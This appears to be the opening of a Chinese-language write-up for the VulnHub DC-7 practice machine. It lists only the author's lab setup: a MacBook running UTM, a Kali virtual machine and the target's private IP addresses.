

---
---

# 💻 硬件与软件平台
## 硬件
- Apple Macbook pro `M1-Pro` `32G` `512G`
- macOS `14.8.5`

## 软件
- UTM version `4.7.5`

**kali**:
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- CPU Arch: `Arm64`
- CPU Cores: `4`

**DC-7**: 
- website: `https://www.vulnhub.com/entry/dc-7,356/`
- IP: `192.168.64.42`
- CPU Arch: `x86_64`
- CPU Cores: `2`

---

> 水平有限，有不足、错误之处欢迎指出。🧐